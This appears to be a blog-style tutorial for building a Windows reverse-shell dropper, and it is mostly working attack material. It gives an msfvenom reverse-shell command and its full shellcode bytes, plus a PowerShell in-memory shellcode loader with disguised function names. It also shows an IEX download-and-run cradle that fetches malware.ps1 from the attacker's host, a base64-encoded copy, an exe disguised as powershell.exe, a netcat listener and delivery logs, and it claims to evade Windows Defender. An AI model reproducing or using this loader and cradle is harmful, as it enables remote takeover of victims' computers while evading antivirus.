



### Using reflection in PowerShell to invoke Win32 API calls from remote PowerShell file invoked by Elixir’s interactive shell.

- Insert shellcode from the buf variable in the output from the following msfvenom payload

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip addr> LPORT=<port> -i 2 -e cmd/powershell_base64 -f ps1
```

my output:

```bash
┌──(kali㉿kali)-[/tmp/win11]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=9001 -i 2 -e cmd/powershell_base64 -f ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 2 iterations of cmd/powershell_base64
cmd/powershell_base64 succeeded with size 460 (iteration=0)
cmd/powershell_base64 succeeded with size 460 (iteration=1)
cmd/powershell_base64 chosen with final size 460
Payload size: 460 bytes
Final size of ps1 file: 2260 bytes
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x23,0x29,0xc0,0xa8,0x1,0xa,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x2,0x0,0x0,0x49,0xb8,0x63,0x6d,0x64,0x0,0x0,0x0,0x0,0x0,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0xd,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x1,0x1,0x48,0x8d,0x44,0x24,0x18,0xc6,0x0,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0xe,0x41,0xba,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x59,0x41,0x89,0xda,0xff,0xd5
```

### The PowerShell Script.

- Remove 'your_payload' and paste your payload instead.

```powershell
function potatoes {
Param ($cherries, $pineapple)
$tomatoes = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
$turnips=@()
$tomatoes.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$turnips+=$_}}
return $turnips[0].Invoke($null, @(($tomatoes.GetMethod('GetModuleHandle')).Invoke($null, @($cherries)), $pineapple))
}
function apples {
Param (
[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
[Parameter(Position = 1)] [Type] $delType = [Void]
)
$type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
$type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
$type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
return $type.CreateType()
}
$cucumbers = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll VirtualAlloc), (apples @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
[Byte[]] $buf = <your_payload>
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $cucumbers, $buf.length)
$parsnips =
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll CreateThread), (apples @([IntPtr], [UInt32], [IntPtr], [IntPtr],[UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$cucumbers,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll WaitForSingleObject), (apples @([IntPtr], [Int32]) ([Int]))).Invoke($parsnips, 0xFFFFFFFF)
```

- Host the above in a PowerShell and name it as malware.ps1

### Execution

- If you execute the following command in cmd will give you reverse shell.

```powershell
echo IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.10:800/malware.ps1') | powershell -noprofile -
```

- Instead of that will encode this command and convert the PowerShell script to executable file.
- encode the command by [CyberChef](https://gchq.github.io/CyberChef/){:target="_blank" rel="noopener"}



```powershell
IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.10:800/malware.ps1')
```

- encoded in base64

```powershell
SUVYIChOZXctT2JqZWN0IFN5c3RlbS5OZXQuV2ViQ2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cDovLzE5Mi4xNjguMS4xMDo4MDAvbWFsd2FyZS5wczEnKQ==
```

- Convert PowerShell to exe file.

[PS2EXE](https://ps2exe.azurewebsites.net/){:target="_blank" rel="noopener"}

```powershell
$A =[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("SUVYIChOZXctT2JqZWN0IFN5c3RlbS5OZXQuV2ViQ2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cDovLzE5Mi4xNjguMS4xMDo4MDAvbWFsd2FyZS5wczEnKQ=="))
powershell -noprofile $A
```


- give a file name and click on Create EXE.

- Create a listener.

```bash
┌──(kali㉿kali)-[/tmp/win11]
└─$ rlwrap -r -f . nc -lnvp 9001
Listening on 0.0.0.0 9001
```

### Deliver the file to victim Machin

```powershell
┌──(kali㉿kali)-[/tmp/win11]
└─$ ls -lah
total 28K
drwxr-xr-x  2 kali kali 4.0K Dec  4 11:12 .
drwxrwxrwt 20 root root 4.0K Dec  4 11:09 ..
-rw-r--r--  1 kali kali 4.2K Dec  4 09:12 malware.ps1
-rw-r--r--  1 kali kali  12K Dec  4 11:03 powershell.exe
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[/tmp/win11]
└─$ python3 -m http.server 800
Serving HTTP on 0.0.0.0 port 800 (http://0.0.0.0:800/) ...
```

- Download the malware to the victim.



- execute the file
- you should see both powershell.exe and malware.ps1 triggered

```bash
┌──(kali㉿kali)-[/tmp/win11]
└─$ python3 -m http.server 800
Serving HTTP on 0.0.0.0 port 800 (http://0.0.0.0:800/) ...
192.168.1.140 - - [04/Dec/2021 11:14:20] "GET /powershell.exe HTTP/1.1" 200 -
192.168.1.140 - - [04/Dec/2021 11:14:48] "GET /malware.ps1 HTTP/1.1" 200 -
```

### Get Revers Sell



This should bypass Windows Defender as of 04-12-2021